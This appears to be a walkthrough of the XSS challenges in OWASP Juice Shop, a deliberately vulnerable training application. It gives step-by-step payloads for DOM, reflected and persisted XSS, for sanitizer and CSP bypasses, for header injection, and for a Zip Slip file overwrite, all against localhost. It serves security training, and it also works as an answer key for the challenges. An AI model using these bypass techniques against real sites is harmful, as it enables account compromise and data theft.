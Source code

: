 ## XSS Vulnerabilities

### Use the bonus payload in the DOM XSS challenge
1.  Solve the Perform a DOM XSS attack challenge.
2.  Turn on your computer's speakers!
3.  Paste the payload `<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>` into the `Search...` field and hit Enter.
4.  Enjoy the excellent acoustic entertainment!

---

### Perform a DOM XSS attack
1.  Paste the attack string `<iframe src="javascript:alert('xss')">` into the `Search...` field.
2.  Hit the Enter key.
3.  An alert box with the text "xss" should appear.

---

### Perform a reflected XSS attack
1.  Log in as any user.
2.  Do some shopping and then visit the Order History.
3.  Clicking on the little "Truck" button for any of your orders will show you the delivery status of your order.
4.  Notice the `id` parameter in the URL `http://localhost:3000/#/track-result?id=fe01-f885a0915b79f2a9` with `fe01-f885a0915b79f2a9` being one of your order numbers.
5.  As the `fe01-f885a0915b79f2a9` is displayed on the screen, it might be susceptible to an XSS attack.
6.  Paste the attack string `<iframe src="javascript:alert('xss')">` into that URL so that you have `http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E`.
7.  Refresh that URL to get the XSS payload executed and the challenge marked as solved.

---

### Perform a persisted XSS attack bypassing a client-side security mechanism
1.  Submit a POST request to `http://localhost:3000/api/Users` with:
    * `{"email": "<iframe src=\"javascript:alert('xss')\">", "password": "xss"}` as body
    * `application/json` as `Content-Type` header.
2.  Log in to the application with an admin.
3.  Visit `http://localhost:3000/#/administration`.
4.  An alert box with the text "xss" should appear.

---

### Perform a persisted XSS attack without using the frontend application at all
1.  Log in to the application with any user.
2.  Copy your `Authorization` header from any HTTP request submitted via browser.
3.  Submit a POST request to `http://localhost:3000/api/Products` with:
    * `{"name": "XSS", "description": "<iframe src=\"javascript:alert('xss')\">", "price": 47.11}` as body,
    * `application/json` as `Content-Type`
    * and `Bearer ?` as `Authorization` header, replacing the `?` with the token you copied from the browser.
4.  Visit `http://localhost:3000/#/search`.
5.  An alert box with the text "xss" should appear.

---

### Bypass the Content Security Policy and perform an XSS attack on a legacy page
1.  Log in as any user.
2.  Visit our user profile page at `http://localhost:3000/profile`.
3.  Change the username into `<script>alert('xss')</script>` and click Set Username. Notice the displayed username under the profile picture now is `lert('xss')` while in the Username field it shows `lert('xss')</script>` - a clear indication that the malicious input was sanitized.
4.  Change the username into `<<a|ascript>alert('xss')</script>` and click Set Username. The naive sanitizer only removes `<a|a` effectively changing the username into `<script>alert('xss')</script>` but you'll notice that the script is still not executed.
5.  Set the Image URL to some invalid image URL, e.g. `http://definitely.not.an/image.png`. While the linking fails and your profile will show a broken image, the CSP header will now contain `http://definitely.not.an/image.png;` - the originally supplied URL.
6.  Set `https://a.png; script-src 'unsafe-inline' 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com` as Image URL and click \_Link Image.
7.  Refresh the page to give the browser the chance to load the tampered CSP and enjoy the alert box popping up!

---

### Perform a persisted XSS attack bypassing a server-side security mechanism
1.  In the `package.json.bak` you might have noticed the pinned dependency `"sanitize-html": "1.4.2"`. Internet research will yield a reported Cross-site Scripting (XSS) vulnerability, which was fixed with version 1.4.3. The referenced GitHub issue explains the problem and gives an exploit example: `I am not harmless: <<img src="csrf-attack"/>img src="csrf-attack"/>` is sanitized to `I am not harmless: <img src="csrf-attack"/>`.
2.  Visit `http://localhost:3000/#/contact`.
3.  Enter `<<script>Foo</script>iframe src="javascript:alert('xss')">` as Comment.
4.  Choose a rating and click Submit.
5.  Visit `http://localhost:3000/#/about` for a first "xss" alert.
6.  Visit `http://localhost:3000/#/administration` for a second "xss" alert.

---

### Perform a persisted XSS attack through an HTTP header
1.  Log in as any user.
2.  Visit `http://localhost:3000/#/privacy-security/last-login-ip`.
3.  Log out and then log in again.
4.  Find the request to `https://localhost:3000/rest/saveLoginIp` in your Browser DevTools.
5.  Replay the request after adding the `True-Client-IP` header with the value `<iframe src="javascript:alert('xss')">`.
6.  Log in again and visit `http://localhost:3000/#/privacy-security/last-login-ip` to see the alert popup.

---

### Embed an XSS payload into our promo video
1.  Visit `http://localhost:3000/promotion` and view the source to see the video is at `http://localhost:3000/video` with subtitles embedded.
2.  Access the subtitle file directly at `http://localhost:3000/assets/public/videos/owasp_promo.vtt`.
3.  The goal is to overwrite this file using a Zip Slip vulnerability. The correct path on the server is `frontend/dist/frontend/assets/public/videos/owasp_promo.vtt`.
4.  Prepare a ZIP file with an `owasp_promo.vtt` inside that contains the payload `</script><script>alert('xss')</script>` and the path `../../frontend/dist/frontend/assets/public/video/owasp_promo.vtt` (on Linux).
5.  Upload the ZIP file on `http://localhost:3000/#/complain`.
6.  Visit `http://localhost:3000/promotion` again to trigger the XSS payload.

---
